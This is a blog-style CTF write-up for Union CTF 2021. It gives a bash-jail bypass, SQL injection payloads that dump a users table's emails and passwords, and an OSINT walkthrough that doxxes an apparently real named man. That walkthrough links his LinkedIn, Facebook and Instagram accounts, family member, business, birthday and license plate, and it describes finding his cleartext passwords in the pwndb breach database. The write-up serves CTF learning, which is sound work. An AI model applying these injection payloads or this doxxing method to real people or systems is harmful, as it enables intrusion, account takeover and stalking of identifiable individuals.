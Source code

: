 ```yaml
---
title: "Union CTF Writeup"
date: 2021-02-21 11:00:00 -0800
categories: [CTF, writeup]
tags: [writeup, web, osint]
toc: true
---
```


> Union CTF is a jeopardy-style CTF aiming for a medium difficulty, organised by the UK-based cr0wn team.

The first writeups are a web/sh jail, then the rest is the big OSINT question from this CTF. Several details have been left our or are intentionally vague as the challenge was to literally dox someone.

## bashlex (Misc)

This challenge comes with source code, but I didn't notice/did not need it to solve the challenge. We are placed in a SH jail with a few whitelisted commands and blacklisted words.

We are given access to ``ls``,  so I was able to determine that the flag was in ``/home/bashlex/flag.txt``.

Now we just need to print the flag. When it comes to bash jails, people always overlook ``base64``, and it was overlooked again here. I try to base64 encode the flag, but I cannot type the word flag.

To get around this, I tried using wildcards (?, *) but those were restricted. However, I could use environmenet variables with no restriction. There is an ``A`` at Index 8 in $PATH, so I was able to use that to print the base64 encoded flag.

```
base64 /home/bashlex/fl${PATH:8:1}g.txt
dW5pb257Y2hvbXNreV9nb19sbGxsbGxsbGwxfQo=
```

And we get the flag: ``union{chomsky_go_lllllllll1}``


## Meet the Union Committee (Web)

The profiles on this site are vulnerable to SQL injection.

```
http://34.105.202.19:1336/?id=2
```

Replacing with a single quote yeilds this:

```
Traceback (most recent call last):
  File "unionflaggenerator.py", line 49, in do_GET
    cursor.execute("SELECT id, name, email FROM users WHERE id=" + params["id"])
sqlite3.OperationalError: unrecognized token: "`"
```

So now we can easy go throuhg the database.

We know there are 3 columns based on the leaked query, so we can go straight to:

```
2 UNION SELECT null, 'a', null
```

Let's get table names:

```
2 UNION SELECT null, name, null FROM sqlite_master WHERE type ='table'

comments
sqlite_sequence
users
```

Let's get the columns from the users table:

```
2 UNION SELECT null, sql, null FROM sqlite_master WHERE tbl_name = 'users' AND type = 'table'

email, password, id
```

Now let's grab the email/password combos for everyone:

```
?id=2 UNION SELECT null,email || '~' || password, null FROM users
```

And we get the flag: ``union{uni0n_4ll_s3l3ct_n0t_4_n00b}``

## Name (1)

```
Brian S from Newport left Crown in 2014 to become regional sales manager. He was really great at pwn but wanted to pursue his childhood goal of making as much money as possible.

What is Brian's Last name?

Please note this does not require the flag format.

Author: BananaMan
```

Ok, we get a little bit of information about someone and we have to track them down on the internet. The things I noted here are:

1) Crown is not spelled as cr0wn, meaning it is something different. I googled companies with the name Crown and there were so many results that I decided to ignore this bit of information initially.

2) His job title is ``Regional Sales Manager``. 

3) The fact that he wants to "make as much money as possible.

4) He is from Newport.

Given that this information is tied to someone's professional life, I decided to use this information to search for Brian on LinkedIn.

To find Brian, I utilized LinkedIn's filters.

I did a search for ``Brian`` and used the keyword title filter ``Regional Sales Manager`` Additionally, for the location filter, I tried every ``Newport`` that I could. For Newport Beach, CA:

![linkedin1](https://i.ibb.co/WyxjBS7/image.png)

![linkedin2](https://i.ibb.co/6BrmJwP/image.png)

And we find this [LinkedIn Profile!](https://www.linkedin.com/in/brian-schuler-930a87/)

Last Name: ``Schuler``.

## Brian's CV

On his LinkedIn profile, he includes his CV which has answers for the following problems:

```
Email (1)
Address (1)
Address (2)
Address (3)
Number (1)
Number (2)
```

## Sports

In the "interests" section on LinkedIn, we can see the Angels:

![linkedin3](https://i.ibb.co/TTjsX8Q/image.png)

## Name(2), Business

After thourougly going through his LinkedIn profile, I could not find this information so I decided to look for different social media accounts.

I ended up finding his [facebook account](https://www.facebook.com/brian.schuler.7528) using the information from LinkedIn.

Here, we can see in his friends list that his wife's name is ``Denise`` and that he currently a ``Small Business Owner at Ohana Hui``.

## Dates(1)

```
What day and month is Brian's Birthday?
```

From his facebook account:

![birthday](https://i.ibb.co/7gYhF6r/image.png)

## Transportation

```
What is the license plate number of Brian's car?
```

I could not find this information from his Facebook account, so I decided to look for another social media account.

I ended up finding his [instagram account](https://www.instagram.com/bkschuler/?hl=en), using his daughter's username.

I found a post from July 21, 2017 containing his license plate.

## Date (2)

```
What date did Brian and his wife marry on?
```

Going through his instagram posts, I see an image where he and his wife are at a "Hitching Post". It was posted on Feb 22, 2015 and the caption says that "23 years and 77 days ago his wife said yes". Using this, I was able to find his wedding date.

## Password (1), Password (2)

For these challenges, I utilized ``pwndb``. Using the emails learned from previous challenges, I searched the db and found his passwords in cleartext. 

## Email (3)

```
Can you find another organisational email address for Brian?
```

Looking at his CV back from LinkedIn, I went through where he had worked, looked up the email format for that company, and tried to enter it as the flag.

For the Independent Can company, I found their emails are usually set up like this:

```
<first><last_initial>@independentcan.com
```

So: ``brians@independentcan.com``.














